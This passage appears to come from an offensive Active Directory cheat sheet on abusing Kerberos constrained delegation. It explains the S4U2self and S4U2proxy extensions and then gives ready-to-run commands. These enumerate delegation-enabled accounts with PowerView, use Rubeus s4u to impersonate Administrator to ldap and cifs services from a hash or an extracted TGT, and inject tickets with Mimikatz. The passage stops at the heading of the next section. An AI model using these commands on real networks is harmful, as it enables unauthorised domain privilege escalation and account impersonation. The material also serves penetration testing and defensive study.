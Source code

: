 ### Constrained delegation

In this situation, the computer in delegation has a list of services where it can delegate an authentication. This is controlled by `msDS-AllowedToDelegateTo` attribute that contains a list of SPNs to which the user tokens can be forwarded. No ticket is stored in LSASS.

To impersonate the user, Service for User (S4U) extension is used which provides two extensions:

* Service for User to Self (**S4U2self**) - Allows a service to obtain a forwardable ST to itself on behalf of a user with just the user principal name without supplying a password. The service account must have the **TRUSTED\_TO\_AUTHENTICATE\_FOR\_DELEGATION** – T2A4D UserAccountControl attribute.
* Service for User to Proxy (**S4U2proxy**) - Allows a service to obtain a ST to a second service on behalf of a user.

#### Enumerate principals with CD enabled

```powershell
#Powerview
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

#AD Module
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

#### With protocol transition

Any service can be specified on the target since it is not correctly checked. All the Rubeus commands can be performed with kekeo aswell.

* Request a ticket for multiple services on the target, for another user (S4U)

```powershell
.\Rubeus.exe s4u /user:user1 /rc4:<hash> /impersonateuser:Administrator /msdsspn:"time/<target>.domain.local" /altservice:ldap,cifs /ptt
```

If we have a session as the user, we can just run `.\Rubeus.exe tgtdeleg /nowrap` to get the TGT in Base64, then run:

```powershell
.\Rubeus.exe s4u /ticket:doIFCDC[SNIP]E9DQUw= /impersonateuser:Administrator /domain:domain.local /msdsspn:"time/<target>.domain.local" /altservice:ldap,cifs /ptt
```

* Inject the ticket

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt ticket.kirbi"'
```

#### Without protocol transition

In this case, it is not possible to use **S4U2self** to obtain a forwardable ST for a specific user. This restriction can be bypassed with an RBCD attack detailled in the following section.

### Resource-based constrained delegation
